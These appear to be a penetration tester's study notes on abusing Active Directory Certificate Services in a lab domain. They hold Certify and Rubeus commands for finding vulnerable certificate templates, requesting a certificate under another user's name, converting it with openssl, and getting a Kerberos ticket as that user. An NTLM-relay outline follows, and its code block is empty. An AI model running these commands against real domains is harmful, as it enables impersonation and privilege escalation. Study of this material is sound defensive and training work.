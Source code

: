 # ADCS Notes

**Finding Certificate Authorities**

Tools: [Certify](https://github.com/GhostPack/Certify)

Search ADCS in a domain or forest
```
execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe cas
```

**Misconfigured Certificate Templates**

find vulnerable tickets
```
execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe find /vulnerable
```
key parts to look into
1. the CA name
2. Template Name
3. msPKI-Certificate-Name-Flag
4. pkiextendedkeyusage
5. Enrollment Rights - see who can enroll here, look for groups you are in or if all domain users can

Abusing steps
1. Request a certificate for a user
2. copy and whole certificate and save it as cert.pem on linux
3. use openssl command to convert to pfx format
4. convert cert.pfx into a base64 string for Rubeus
5. make an asktgt req for the user using the cert
```
execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.dev.cyberbotic.io\sub-ca /template:CustomUser /altname:<user>
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
cat cert.pfx | base64 -w 0
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:<user> /certificate:<base64> /password:pass123 /nowrap
```

**NTLM Relaying to ADCS HTTP Endpoints**

can't relay dc to adcs if running on same dc, but we can relay with a system having unconstrained delegation

steps:
1. portbender on unconstrained device capturing 445->8445
2. reverse port forward to forward traffic hitting port 8445 to the team server on port 445
3. a socks proxy for ntlmrelayx to send traffic back into the network
4. ntlmrelayx pointing to the certfnsh.asp page on the adcs server

```

```


